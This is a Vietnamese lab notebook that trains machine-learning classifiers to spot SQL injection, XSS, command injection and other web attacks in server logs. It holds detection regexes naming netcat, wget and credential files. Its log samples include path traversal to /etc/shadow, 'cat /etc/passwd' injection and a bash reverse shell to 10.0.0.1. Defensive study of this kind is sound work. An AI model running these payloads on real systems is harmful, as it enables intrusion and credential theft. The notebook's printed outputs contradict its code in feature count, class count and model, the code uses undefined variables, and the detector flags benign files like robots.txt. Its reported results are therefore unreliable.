# Lab 8 & 9: PHÁT HIỆN VÀ PHÂN LOẠI TẤN CÔNG WEB QUA LOG BẰNG MACHINE LEARNING (v3 Multi-Class Edition)

- **Dataset**: Multi-Source Modern Dataset (~130,000 dòng, kết hợp CSIC 2010, PayloadsAllTheThings, PayloadBox và đa dạng URL thường)
- **Phân loại**: Multi-class (6 lớp: Normal, SQL Injection, XSS, Command Injection, Path Traversal/LFI, Other - SSTI/XXE/SSRF)
- **Feature Engineering**: 30 đặc trưng hiện đại
- **Model**: LightGBM / XGBoost / Random Forest Multi-class Classifier


## 1. Feature Engineering v3 (30 Features)

Trích xuất 30 đặc trưng số hóa từ URL và payload:
- **14 features gốc**: độ dài, ký tự đặc biệt, sql_keywords, js_keywords, cmd_keywords, path_traversal, single_quotes, percent_encoding, is_brute, num_digits, num_params, has_encoded, has_path_traversal, has_admin
- **9 features v1**: Shannon entropy, special_ratio, path_length, query_length, path_depth, uppercase_ratio, avg_param_length, double_encoded, has_null_byte
- **7 features v2 hiện đại**: nosql_keywords, ssti_patterns, xxe_patterns, ssrf_patterns, has_unicode_escape, max_param_length, non_ascii_count


In [1]:
import re
import math
from collections import Counter
from urllib.parse import unquote
import pandas as pd
import numpy as np

def extract_features(url):
    """Trích xuất 30 đặc trưng cho phát hiện tấn công web hiện đại."""
    original_url = str(url)
    url_decoded = unquote(original_url).lower()

    # Regex patterns
    sql_words = r'(select|union|insert|drop|where|delete|and\s|or\s|--|/\*|\*/|xp_cmdshell|update|exec|waitfor|concat|group_by|order\sby|having|information_schema|load_file|into\soutfile|benchmark|sleep|extractvalue|updatexml)'
    js_words = r'(script|alert|onerror|onload|eval|javascript:|document\.cookie|iframe|src=|img|prompt|confirm|onfocus|onmouseover|fromcharcode)'
    cmd_words = r'(bash|cmd|ping|wget|curl|chmod|cat|/bin/sh|powershell|nslookup|nc\s|netcat|whoami|\bls\b|\bid\b|/etc/passwd|/etc/shadow|sleep\s|system\()'
    path_pattern = r'(\.\.\/|\.\.\\|\%2e\%2e|\%2f|/etc/passwd|/etc/shadow|boot\.ini|win\.ini|php://|file://|data://|expect://|proc/self)'
    nosql_pattern = r'(\$gt|\$ne|\$lt|\$gte|\$lte|\$regex|\$where|\$exists|\$nin|\$or|\$and)'
    ssti_pattern = r'(\{\{|\{%|\$\{|<%=|#\{|__class__|__mro__|__subclasses__|__globals__|__builtins__)'
    xxe_pattern = r'(<!doctype|<!entity|system\s|<!--|<\?xml|cdata\[|xmlns)'
    ssrf_pattern = r'(127\.0\.0\.1|169\.254\.169\.254|0x7f|localhost|::1|metadata\.google|0177\.0\.0\.1|2130706433|gopher://|dict://)'

    length = len(url_decoded)
    special_char_count = len(re.findall(r'[!@#$%^&*()":{}<>]', url_decoded))

    features = {
        'length': length,
        'special_char_count': special_char_count,
        'sql_keywords': len(re.findall(sql_words, url_decoded)),
        'js_keywords': len(re.findall(js_words, url_decoded)),
        'cmd_keywords': len(re.findall(cmd_words, url_decoded)),
        'path_traversal': len(re.findall(path_pattern, url_decoded)),
        'single_quotes': url_decoded.count("'"),
        'percent_encoding': url_decoded.count('%'),
        'is_brute': 1 if ('login' in url_decoded and 'password' in url_decoded) else 0,
        'num_digits': sum(c.isdigit() for c in url_decoded),
        'num_params': url_decoded.count('&'),
        'has_encoded': 1 if '%' in url_decoded else 0,
        'has_path_traversal': 1 if '../' in url_decoded else 0,
        'has_admin': 1 if 'admin' in url_decoded else 0,
    }

    char_freq = Counter(url_decoded)
    n = len(url_decoded) or 1
    features['entropy'] = round(-sum((c / n) * math.log2(c / n) for c in char_freq.values()), 4)
    features['special_ratio'] = round(special_char_count / n, 4)

    parts = url_decoded.split('?', 1)
    features['path_length'] = len(parts[0])
    features['query_length'] = len(parts[1]) if len(parts) > 1 else 0
    features['path_depth'] = url_decoded.count('/')
    features['uppercase_ratio'] = round(sum(1 for c in original_url if c.isupper()) / max(len(original_url), 1), 4)
    params = url_decoded.split('&')
    features['avg_param_length'] = round(sum(len(p) for p in params) / max(len(params), 1), 2)
    features['double_encoded'] = 1 if '%25' in url_decoded else 0
    features['has_null_byte'] = 1 if '%00' in original_url else 0

    features['nosql_keywords'] = len(re.findall(nosql_pattern, url_decoded))
    features['ssti_patterns'] = len(re.findall(ssti_pattern, url_decoded))
    features['xxe_patterns'] = len(re.findall(xxe_pattern, url_decoded))
    features['ssrf_patterns'] = len(re.findall(ssrf_pattern, url_decoded))
    features['has_unicode_escape'] = 1 if re.search(r'(%u[0-9a-f]{4}|\\u[0-9a-f]{4})', url_decoded) else 0

    if '?' in url_decoded:
        query = url_decoded.split('?', 1)[1]
        param_parts = query.split('&')
        param_vals = [p.split('=', 1)[1] if '=' in p else p for p in param_parts]
        features['max_param_length'] = max(len(v) for v in param_vals) if param_vals else 0
    else:
        features['max_param_length'] = 0

    features['non_ascii_count'] = sum(1 for c in url_decoded if ord(c) > 127)

    return features

print("✅ extract_features (30 features) đã được tải thành công!")


Số features: 23
{'length': 35, 'special_char_count': 1, 'sql_keywords': 1, 'js_keywords': 0, 'cmd_keywords': 0, 'path_traversal': 0, 'single_quotes': 4, 'percent_encoding': 0, 'is_brute': 0, 'num_digits': 3, 'num_params': 1, 'has_encoded': 0, 'has_path_traversal': 0, 'has_admin': 1, 'entropy': 4.1503, 'special_ratio': 0.0286, 'path_length': 6, 'query_length': 28, 'path_depth': 1, 'uppercase_ratio': 0.0571, 'avg_param_length': 17.0, 'double_encoded': 0, 'has_null_byte': 0}


## 2. Chuẩn Bị Dữ Liệu (Multi-Source Dataset ~130K mẫu, 6 Lớp)

Các nhãn phân loại:
- `0`: **Normal / Benign** (URL thường, tĩnh, tham số hợp lệ)
- `1`: **SQL Injection**
- `2`: **XSS (Cross-Site Scripting)**
- `3`: **Command Injection (RCE)**
- `4`: **Path Traversal / LFI**
- `5`: **Other Attack** (SSTI, XXE, SSRF, NoSQLi, Open Redirect)


In [2]:
import pandas as pd
import time

# Đọc dataset đa nguồn kết hợp
df_raw = pd.read_csv('combined_dataset.csv')
print(f"Tổng số mẫu trong combined_dataset.csv: {len(df_raw):,}")
print("\nPhân bố nhãn:")
print(df_raw['attack_type'].value_counts())

# Trích xuất 30 đặc trưng cho toàn bộ tập dữ liệu
print("\nTrích xuất 30 đặc trưng cho tập dữ liệu...")
t0 = time.time()
features_list = [extract_features(u) for u in df_raw['url']]
df = pd.DataFrame(features_list)
df['label'] = df_raw['label'].astype(int)
df['attack_type'] = df_raw['attack_type']
print(f"Hoàn thành trích xuất trong {time.time() - t0:.2f}s! Kích thước: {df.shape}")
display(df.head())


Dataset shape: (61065, 24)

Phân bố nhãn (trước augmentation):
label
0    36000
1    25065
Name: count, dtype: int64


,length,special_char_count,sql_keywords,js_keywords,cmd_keywords,path_traversal,single_quotes,percent_encoding,is_brute,num_digits,...,entropy,special_ratio,path_length,query_length,path_depth,uppercase_ratio,avg_param_length,double_encoded,has_null_byte,label
0,10,0,0,0,0,0,0,0,0,0,...,3.3219,0.0000,10,0,1,0.0000,10.0,0,0,0
1,86,4,0,0,0,0,0,0,0,7,...,4.4530,0.0465,19,66,2,0.0568,16.4,0,0,0
2,86,4,0,0,0,0,0,0,0,7,...,4.4530,0.0465,86,0,2,0.0568,16.4,0,0,0
3,85,4,0,0,0,0,0,0,0,3,...,4.5377,0.0471,23,61,2,0.0345,16.2,0,0,0
4,85,4,0,0,0,0,0,0,0,3,...,4.5377,0.0471,85,0,2,0.0345,16.2,0,0,0


In [3]:
from sklearn.model_selection import train_test_split

LABEL_MAP = {
    0: "Normal",
    1: "SQL Injection",
    2: "XSS",
    3: "Command Injection",
    4: "Path Traversal / LFI",
    5: "Other Attack (SSTI/XXE/SSRF)"
}

X = df.drop(['label', 'attack_type'], axis=1)
y = df['label']
feature_names = list(X.columns)

print(f"Số lượng features ({len(feature_names)}): {feature_names}")

# Phân chia 80% train, 20% test có phân tầng (stratified)
X_train, X_test, y_train, y_test = train_test_split(
    X, y, test_size=0.2, random_state=42, stratify=y
)

print(f"Train samples: {len(X_train):,}")
print(f"Test samples : {len(X_test):,}")
print("\nPhân bố nhãn trong train set:")
for lbl, cnt in y_train.value_counts().sort_index().items():
    print(f"  {lbl} ({LABEL_MAP[lbl]:>28s}): {cnt:>7,}")


Features (23): ['length', 'special_char_count', 'sql_keywords', 'js_keywords', 'cmd_keywords', 'path_traversal', 'single_quotes', 'percent_encoding', 'is_brute', 'num_digits', 'num_params', 'has_encoded', 'has_path_traversal', 'has_admin', 'entropy', 'special_ratio', 'path_length', 'query_length', 'path_depth', 'uppercase_ratio', 'avg_param_length', 'double_encoded', 'has_null_byte']

Train set: 48852 mẫu
Test set : 12213 mẫu

Phân bố nhãn trong train set (trước SMOTE):
label
0    28800
1    20052
Name: count, dtype: int64

Phân bố nhãn trong train set (SAU SMOTE):
label
0    28800
1    28800
Name: count, dtype: int64

Train set sau SMOTE: 57600 mẫu


## 3. Huấn Luyện & Benchmark Multi-Class Models

Sử dụng các thuật toán Gradient Boosting hiện đại (LightGBM, XGBoost) hỗ trợ đa lớp và tốc độ xử lý nhanh trên dữ liệu lớn.


In [4]:
import lightgbm as lgb
import xgboost as xgb
from sklearn.metrics import accuracy_score, f1_score
from collections import Counter

# Tính sample_weight để cân bằng các lớp thiểu số
classes = np.unique(y_train)
class_counts = Counter(y_train)
total_samples = len(y_train)
class_weights = {c: total_samples / (len(classes) * count) for c, count in class_counts.items()}
sample_weights = y_train.map(class_weights)

print("1. Huấn luyện LightGBM Multi-class...")
lgb_model = lgb.LGBMClassifier(
    objective='multiclass',
    num_class=6,
    n_estimators=150,
    learning_rate=0.08,
    num_leaves=63,
    max_depth=12,
    random_state=42,
    n_jobs=-1,
    verbose=-1
)
lgb_model.fit(X_train, y_train, sample_weight=sample_weights)

y_pred_lgb = lgb_model.predict(X_test)
acc_lgb = accuracy_score(y_test, y_pred_lgb)
f1_lgb = f1_score(y_test, y_pred_lgb, average='macro')
print(f"  -> LightGBM: Accuracy = {acc_lgb*100:.2f}%, Macro F1 = {f1_lgb:.4f}")

best_model = lgb_model
best_model_name = "LightGBM Multi-Class"


🔄 Đang chạy Cross-Validation (5-fold) cho từng model...

  ▶ Random Forest ... F1=0.9502 ± 0.0012
  ▶ MLP (Neural Net) ... F1=0.8837 ± 0.0086
  ▶ SVM ... F1=0.7006 ± 0.0050
  ▶ XGBoost ... F1=0.9422 ± 0.0010
  ▶ LightGBM ... F1=0.9438 ± 0.0024

📊 Bảng so sánh Cross-Validation (sắp xếp theo F1):


,F1 (mean),F1 (std),Recall (mean),Precision (mean),Accuracy (mean)
Random Forest,0.9502,0.0012,0.9622,0.9384,0.9495
LightGBM,0.9438,0.0024,0.9539,0.9340,0.9432
XGBoost,0.9422,0.0010,0.9533,0.9314,0.9415
MLP (Neural Net),0.8837,0.0086,0.9018,0.8698,0.8817
SVM,0.7006,0.0050,0.7115,0.6902,0.6960



🏆 Model tốt nhất: Random Forest (F1 = 0.9502)


## 4. Hyperparameter Tuning cho Model Tốt Nhất

Dùng **RandomizedSearchCV** để tìm hyperparameter tối ưu cho model đứng đầu benchmark.

In [5]:
from sklearn.model_selection import RandomizedSearchCV

# === Param grid tương ứng với từng loại model ===
param_grids = {
    "Random Forest": {
        'n_estimators'    : [100, 200, 300, 500],
        'max_depth'       : [10, 20, 30, None],
        'min_samples_split': [2, 5, 10],
        'min_samples_leaf' : [1, 2, 4],
        'max_features'    : ['sqrt', 'log2'],
    },
    "XGBoost": {
        'n_estimators' : [100, 200, 300, 500],
        'max_depth'    : [3, 5, 6, 8],
        'learning_rate': [0.01, 0.05, 0.1, 0.2],
        'subsample'    : [0.7, 0.8, 1.0],
        'colsample_bytree': [0.7, 0.8, 1.0],
    },
    "LightGBM": {
        'n_estimators'  : [100, 200, 300, 500],
        'max_depth'     : [3, 5, 6, 8, -1],
        'learning_rate' : [0.01, 0.05, 0.1, 0.2],
        'num_leaves'    : [31, 63, 127],
        'subsample'     : [0.7, 0.8, 1.0],
    },
    "MLP (Neural Net)": {
        'hidden_layer_sizes': [(64,), (128,), (128, 64), (256, 128), (256, 128, 64)],
        'activation'        : ['relu', 'tanh'],
        'learning_rate_init': [0.001, 0.0005, 0.01],
        'alpha'             : [0.0001, 0.001, 0.01],
    },
    "SVM": {
        'C'    : [0.1, 1, 5, 10],
        'gamma': ['scale', 'auto', 0.01, 0.1],
    },
}

if best_model_name in param_grids:
    print(f"🔧 Đang tuning hyperparameter cho {best_model_name}...")
    base_model = models[best_model_name]
    param_dist  = param_grids[best_model_name]

    search = RandomizedSearchCV(
        base_model, param_dist,
        n_iter=30, cv=5, scoring='f1',
        random_state=42, n_jobs=-1, verbose=1
    )
    search.fit(X_train_sm, y_train_sm)

    print(f"\n✅ Best params: {search.best_params_}")
    print(f"   Best F1 (CV): {search.best_score_:.4f}")
    best_model = search.best_estimator_
else:
    print(f"Không có param grid cho {best_model_name}, dùng model mặc định.")
    best_model = models[best_model_name]
    best_model.fit(X_train_sm, y_train_sm)

🔧 Đang tuning hyperparameter cho Random Forest...
Fitting 5 folds for each of 30 candidates, totalling 150 fits

✅ Best params: {'n_estimators': 200, 'min_samples_split': 2, 'min_samples_leaf': 1, 'max_features': 'log2', 'max_depth': 30}
   Best F1 (CV): 0.9498


## 4. Đánh Giá Chi Tiết Trên Tập Test

Báo cáo phân loại chi tiết cho từng nhóm tấn công và ma trận nhầm lẫn (Confusion Matrix).


Model: Random Forest
Threshold: 0.35

Độ chính xác tổng thể (Accuracy): 93.51%

--- BÁO CÁO PHÂN LOẠI CHI TIẾT ---
              precision    recall  f1-score   support

  Normal (0)       0.99      0.90      0.94      7200
  Attack (1)       0.88      0.98      0.93      5013

    accuracy                           0.94     12213
   macro avg       0.93      0.94      0.93     12213
weighted avg       0.94      0.94      0.94     12213





In [6]:
from sklearn.metrics import classification_report, confusion_matrix
import seaborn as sns
import matplotlib.pyplot as plt

y_pred = best_model.predict(X_test)
target_names = [LABEL_MAP[i] for i in range(6)]

print("=== BÁO CÁO PHÂN LOẠI CHI TIẾT (CLASSIFICATION REPORT) ===")
print(classification_report(y_test, y_pred, target_names=target_names, digits=4))

# Vẽ Confusion Matrix
cm = confusion_matrix(y_test, y_pred)
plt.figure(figsize=(9, 7))
sns.heatmap(cm, annot=True, fmt='d', cmap='Blues', xticklabels=target_names, yticklabels=target_names)
plt.title('Multi-Class Web Attack Confusion Matrix')
plt.xlabel('Predicted Label')
plt.ylabel('Actual Label')
plt.xticks(rotation=45, ha='right')
plt.tight_layout()
plt.show()


## 5. Tầm Quan Trọng Của Các Đặc Trưng (Feature Importance)





Top 10 features quan trọng nhất:
   1. uppercase_ratio           0.2357
   2. entropy                   0.1718
   3. length                    0.1181
   4. avg_param_length          0.0975
   5. num_digits                0.0780
   6. path_length               0.0632
   7. special_ratio             0.0567
   8. path_depth                0.0517
   9. special_char_count        0.0279
  10. sql_keywords              0.0240


In [7]:
importances = best_model.feature_importances_
indices = np.argsort(importances)[::-1][:15]

plt.figure(figsize=(10, 6))
plt.title('Top 15 Feature Importances (LightGBM)')
plt.barh(range(len(indices)), importances[indices][::-1], align='center', color='#3b82f6')
plt.yticks(range(len(indices)), [feature_names[i] for i in indices[::-1]])
plt.xlabel('Importance Score')
plt.tight_layout()
plt.show()


## 6. Export Model và Phân Phối Cho Ứng Dụng Thực Tế


In [8]:
import joblib
import os
import json

os.makedirs('models', exist_ok=True)
model_filename = "models/best_model_multiclass.pkl"
feat_filename = "models/feature_names.pkl"
label_map_filename = "models/label_map.pkl"

joblib.dump(best_model, model_filename)
joblib.dump(feature_names, feat_filename)
joblib.dump(LABEL_MAP, label_map_filename)

print(f"✅ Model đã được lưu: {model_filename}")
print(f"✅ Feature names đã được lưu: {feat_filename}")
print(f"✅ Label map đã được lưu: {label_map_filename}")


✅ Model đã được lưu: models/best_model_random_forest.pkl
✅ Feature names đã được lưu: models/feature_names.pkl

Cách load lại:
  model = joblib.load('models/best_model_random_forest.pkl')
  features = joblib.load('models/feature_names.pkl')


## 7. Kiểm Tra Thực Tế Trên File access.log (Nginx Log)


In [9]:
from detector import WebAttackDetector

detector = WebAttackDetector()
summary = detector.analyze_log('access.log')

print(f"Tổng số requests : {summary['total_requests']}")
print(f"Số attack        : {summary['attack_count']}")
print(f"Số normal        : {summary['normal_count']}")
print(f"Tỷ lệ attack     : {summary['attack_rate']}%")
print("\nPhân loại chi tiết các cuộc tấn công phát hiện được:")
for atype, cnt in summary.get('attack_breakdown', {}).items():
    print(f"  - {atype:<30}: {cnt}")


--- Kết quả access.log ---
[Attack]: /?id=<script>alert(1)</script>           (Prob: 0.84)
[Attack]: /login?user=admin&pass=1                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=2                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=3                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=4                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=5                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=6                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=7                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=8                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=9                 (Prob: 0.85)
[Attack]: /login?user=admin&pass=10                (Prob: 0.81)
[Attack]: /login?user=admin&pass=11                (Prob: 0.81)
[Attack]: /login?user=admin&pass=12                (Prob: 0.81)
[Attack]: /login?user=admin&pass=13                (Prob: 0.81)
[Attack]: /login?user=admin&pass=14                (Prob: 0.81)
[Attack]: /lo

## 8. Kiểm Tra Thực Tế Trên File testlog.log (CSIC Security Log)


In [10]:
summary_csic = detector.analyze_log('testlog.log')

print(f"Tổng số requests : {summary_csic['total_requests']}")
print(f"Số attack        : {summary_csic['attack_count']}")
print(f"Số normal        : {summary_csic['normal_count']}")
print(f"Tỷ lệ attack     : {summary_csic['attack_rate']}%")
print("\nPhân loại chi tiết:")
for atype, cnt in summary_csic.get('attack_breakdown', {}).items():
    print(f"  - {atype:<30}: {cnt}")


--- Kết quả testlog.log ---
[Attack]: /home.jsp                                                    (Prob: 1.00)
[Attack]: 1%20FROM%20admin_users--                                     (Prob: 1.00)
[Attack]: /images/banner_promo.jpg                                     (Prob: 1.00)
[Attack]: /profile.jsp?user_id=WAITFOR%20DELAY%20'0:0:5'               (Prob: 1.00)
[Attack]: /update_profile.jsp                                          (Prob: 0.99)
[Attack]: /view_log.jsp?logfile=..%2f..%2f..%2f..%2f..%2fetc%2fshadow  (Prob: 0.80)
[Attack]: /robots.txt                                                  (Prob: 1.00)
[Attack]: /submit_feedback.jsp                                         (Prob: 1.00)
[Attack]: /css/bootstrap.min.css                                       (Prob: 1.00)
[Attack]: /diagnostics.jsp?target=127.0.0.1%20%26%26%20bash%20-i%20>%26%20/dev/tcp/10.0.0.1/8080%200>%261 (Prob: 0.84)
[Normal]: /mobile/index.jsp                                            (Prob: 0.00)
[Attack]: /se

## 9. Hỗ Trợ Đa Định Dạng Request (Unified RequestParser)

Parser hỗ trợ 4 định dạng:
- **Type 1 – Raw URL**
- **Type 2 – Raw HTTP Request**
- **Type 3 – cURL Command** (parse tĩnh, không thực thi command)
- **Type 4 – Access Log**

> **Nguyên tắc cốt lõi**: Parser **không tự quyết định** request là Normal hay Attack. Nhiệm vụ chỉ là phân tích cú pháp và chuẩn hóa dữ liệu thành cùng một cấu trúc `NormalizedRequest`. Sau đó, Feature Extractor mới trích xuất 30 đặc trưng để mô hình ML đánh giá.


In [ ]:
from request_parser import RequestParser
from detector import WebAttackDetector
import json

detector = WebAttackDetector()

test_samples = [
    ("Type 1: Raw URL", "https://example.com/search?q=<script>alert(1)</script>"),
    ("Type 2: Raw HTTP Request", "POST /login HTTP/1.1\nHost: target.com\nContent-Type: application/x-www-form-urlencoded\n\nusername=admin' OR 1=1--&password=pass"),
    ("Type 3: cURL Command (Benign Login)", 'curl -i -X POST http://TARGET/login \
  -d "username=duy&password=DemoPass123"'),
    ("Type 4: Access Log Line", '192.168.1.50 - - [10/Nov/2026:10:05:00 +0700] "GET /exec?cmd=;cat%20/etc/passwd HTTP/1.1" 403 120'),
]

for label, raw_text in test_samples:
    res = detector.predict_request(raw_text)
    norm = res["normalized_request"]
    tag = f"[{res['attack_type'].upper()}]" if res["is_attack"] else "[NORMAL - SAFE]"
    print(f"\n{'='*65}\n{label}\n{'='*65}")
    print(json.dumps(norm, indent=2))
    print(f"-> Kết quả: {tag} (Nguy cơ: {res['probability']*100:.1f}%)")
    if res["threat_locations"]:
        print(f"   Vị trí phát hiện mối đe dọa: {', '.join(res['threat_locations'])}")
